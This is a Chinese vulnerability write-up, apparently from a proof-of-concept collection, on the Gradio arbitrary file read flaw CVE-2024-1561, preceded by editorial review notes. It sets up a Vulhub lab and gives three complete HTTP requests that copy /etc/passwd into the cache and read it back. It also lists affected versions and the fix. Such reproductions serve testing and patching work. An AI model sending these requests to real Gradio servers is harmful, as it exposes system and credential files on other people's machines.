




## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：&lt;4.13.0，实验4.12.0且明确无身份验证；需确认引入下界

代码与实验材料：config发现组件→copy到cache→file读取三步完整，路径是示例应取实际返回；缓存写入副作用未强调

来源证据范围：多一手链接可追溯未外查

- **结论使用边界（1）**：下界及状态残留可补；依据：并非所有历史Gradio都存在该API；文件会复制到公开缓存需清理说明。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# Python Gradio 任意文件读取漏洞 CVE-2024-1561

## 漏洞描述

Gradio 是一个 Python 库，允许用户无需编写前端代码即可为机器学习模型快速构建 Web 界面。

在 Gradio 4.13 版本之前，`component_server` 接口允许攻击者调用 `Component` 类的任意方法。攻击者可以利用 `move_resource_to_block_cache` 方法，将服务器上的任意文件复制到临时目录，并进一步读取其内容，从而实现任意文件读取。

参考链接：

- [gradio-app/gradio#6884](https://github.com/gradio-app/gradio/pull/6884)
- https://nvd.nist.gov/vuln/detail/CVE-2024-1561
- https://github.com/advisories/GHSA-g9cj-cfpp-4g2x
- https://huntr.com/bounties/4acf584e-2fe8-490e-878d-2d9bf2698338

## 漏洞影响

```
Gradio < 4.13.0
```

## 环境搭建

Vulhub 执行如下命令启动一个由 Gradio 4.12.0 编写的应用：

```
docker compose up -d
```

环境启动后，默认未开启身份验证。你可以通过 `http://your-ip:7860` 访问该应用。



## 漏洞复现

首先，访问 `/config` 接口，获取一个组件的 `id` 字段，例如 `3`。

```
GET /config HTTP/1.1
Host: your-ip:7860
```



然后，利用 `move_resource_to_block_cache` 方法，将 `/etc/passwd` 文件写入临时目录，接口会返回临时文件路径。

```
POST /component_server HTTP/1.1
Host: your-ip:7860
Content-Type: application/json

{
  "component_id": "3",
  "data": "/etc/passwd",
  "fn_name": "move_resource_to_block_cache",
  "session_hash": "aaaaaaaaaaa"
}
```



最后，通过 `file` 接口拼接返回的路径，即可读取文件内容。

```
GET /file=/tmp/gradio/916eb712d668cf14a35adf8179617549780c4070/passwd HTTP/1.1
Host: your-ip:7860
```



如果操作成功，即可看到 `/etc/passwd` 的内容，证明漏洞存在。

## 漏洞修复

该漏洞在 `gradio==4.13.0` 中被修复。


---

> 来源：Threekiii/Awesome-POC
